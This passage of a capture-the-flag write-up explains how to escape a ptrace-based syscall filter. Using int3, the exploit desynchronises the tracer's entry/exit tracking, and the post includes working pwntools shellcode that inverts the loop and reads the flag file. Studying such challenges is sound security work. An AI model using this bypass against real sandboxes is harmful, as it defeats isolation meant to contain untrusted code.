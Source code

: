 ```c
// simplified main tracer faked loop
while (1) {
    // wait for a syscall exit
    ptrace(PTRACE_SYSCALL, child_pid, 0);
    waitpid(child_pid, &status, __WALL);
    
    ptrace(PTRACE_GETREGS, child_pid, 0, regs);
    if (check_syscall(child_pid, regs)) {
        // ALLOW SYSCALL
    } else {
        // BLOCK SYSCALL
    }

    // wait for a syscall entry
    ptrace(PTRACE_SYSCALL, child_pid, 0, 0);
    waitpid(child_pid, &status, __WALL);
}
```

So now the tracer will be checking the registers on exit to syscall. What of course makes no sense:) But how can we make the tracer loose track of those entries/exits? There is a well known trick using `int3` instruction! It will wake the parent which will think the syscall has been invoked, but in fact there was no syscall just interupt. And so we just inverted the loop:)

And after we are free to just open and read a flag file.
Our exploit is super short:)


```python3
# First 10 bytes of shellcode, used only to load the rest of the shellcode
shellcode = asm('''
push 1000
pop rdx
xor eax, eax
syscall
''', arch='amd64')

# Some nops to be sure there is no SIGSEV
# Invoke int3 to invert the main tracer loop
shellcode += asm('''
nop
nop
nop
nop
nop
nop
nop
mov rax, 8
int3
''', arch='amd64')

# And now just read the flag file :)
shellcode += asm(shellcraft.amd64.cat('flag'), arch='amd64')
```
